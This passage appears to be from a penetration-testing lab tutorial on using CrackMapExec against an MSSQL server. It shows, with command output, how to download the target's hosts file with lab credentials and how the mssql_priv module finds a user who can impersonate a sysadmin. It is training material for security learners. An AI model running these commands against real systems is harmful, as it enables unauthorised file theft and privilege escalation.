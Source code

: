 ### **Download a File from the Target Machine via MSSQL**

```shell-session
$ crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth --get-file C:/Windows/System32/drivers/etc/hosts hosts

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:DC01)
MSSQL       10.129.203.121  1433   DC01             [+] nicole:Inlanefreight02! (Pwn3d!)
MSSQL       10.129.203.121  1433   DC01             [*] Copy C:/Windows/System32/drivers/etc/hosts to hosts
MSSQL       10.129.203.121  1433   DC01             [+] File C:/Windows/System32/drivers/etc/hosts was transferred to hosts
```

```shell-session
$ cat hosts 
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.

<SNIP>
```

***

## SQL Privilege Escalation Module

CrackMapExec includes a couple of modules for MSSQL, one of them is `mssql_priv`, which enumerates and exploits MSSQL privileges to attempt to escalate from a standard user to a sysadmin. To achieve this, this module enumerates two (2) different privilege escalation vectors in MSSQL `EXECUTE AS LOGIN` and `db_owner role`. The module has three options `enum_privs` to list privileges (default), `privesc` to escalate privileges, and `rollback` to return the user to its original state. Let's see it in action. In the following example, the user `INLANEFREIGHT\robert` has the privilege to impersonate `julio` who is a sysadmin user.

### **MSSQL Privilege Escalation**

```shell-session
$ crackmapexec mssql -M mssql_priv --options

[*] mssql_priv module options:

        ACTION    Specifies the action to perform:
            - enum_priv (default)
            - privesc
            - rollback (remove sysadmin privilege)
```

```shell-session
$ crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:inlanefreight.htb)
MSSQL       10.129.203.121  1433   DC01             [+] inlanefreight.htb\robert:Inlanefreight01! 
MSSQL_PR... 10.129.203.121  1433   DC01             [+] INLANEFREIGHT\robert can impersonate julio (sysadmin)
```
